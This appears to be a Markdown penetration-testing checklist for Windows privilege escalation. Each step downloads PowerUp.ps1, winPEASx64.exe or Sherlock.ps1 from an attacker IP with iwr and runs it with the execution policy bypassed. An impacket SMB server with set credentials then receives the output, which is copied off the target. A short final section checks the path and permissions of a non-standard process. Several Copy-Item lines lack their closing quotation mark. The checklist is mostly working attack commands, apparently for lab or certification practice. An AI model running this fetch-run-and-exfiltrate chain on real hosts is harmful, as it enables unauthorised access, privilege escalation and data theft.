 - [ ] PowerUp.ps1
```
iwr -uri http://192.168.45.xxx/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1

Get-ModifiableServiceFile > powerup-modifiable-files.txt

impacket-smbserver -smb2support test $(pwd) -username er83@R@39nfr0E4 -password kfro@59e$w$21fN$ # on kali

New-PSDrive -Name "Z" -PSProvider FileSystem -Root "\\192.168.45.xxx\er83@R@39nfr0E4" -Credential (New-Object System.Management.Automation.PSCredential("er83@R@39nfr0E4", (ConvertTo-SecureString "kfro@59e$w$21fN$" -AsPlainText -Force))) -Persist

Copy-Item -Path "C:\Users\xxx\powerup-modifiable-files.txt" -Destination "Z:\powerup-modifiable-files.txt

Remove-PSDrive -Name "Z"
```

- [ ] winPEASx64.exe
```
iwr -uri http://192.168.45.xxx/winPEASx64.exe -Outfile winPEASx64.exe
.\winPEASx64.exe > winpeas.txt

impacket-smbserver -smb2support test $(pwd) -username er83@R@39nfr0E4 -password kfro@59e$w$21fN$ # on kali

New-PSDrive -Name "Z" -PSProvider FileSystem -Root "\\192.168.45.xxx\er83@R@39nfr0E4" -Credential (New-Object System.Management.Automation.PSCredential("er83@R@39nfr0E4", (ConvertTo-SecureString "kfro@59e$w$21fN$" -AsPlainText -Force))) -Persist

Copy-Item -Path "C:\Users\xxx\winpeas.txt" -Destination "Z:\winpeas.txt

Remove-PSDrive -Name "Z"
```

- [ ] Sherlock.ps1 - check for exploits
```
iwr -uri http://192.168.45.xxx/Sherlock.ps1 -Outfile Sherlock.ps1
.\Sherlock.ps1

Find-AllVulns < sherlock.txt

impacket-smbserver -smb2support test $(pwd) -username er83@R@39nfr0E4 -password kfro@59e$w$21fN$ # on kali

New-PSDrive -Name "Z" -PSProvider FileSystem -Root "\\192.168.45.xxx\er83@R@39nfr0E4" -Credential (New-Object System.Management.Automation.PSCredential("er83@R@39nfr0E4", (ConvertTo-SecureString "kfro@59e$w$21fN$" -AsPlainText -Force))) -Persist

Copy-Item -Path "C:\Users\xxx\sherlock.txt" -Destination "Z:\sherlock.txt

Remove-PSDrive -Name "Z"
```
### Non Standard Process
- [ ] Check file path
```
Get-Process -Name NonStandardProcess | Select-Object -ExpandProperty Path
```
- [ ] Get permissions
```
icacls "C:\xampp\apache\bin\httpd.exe"
```
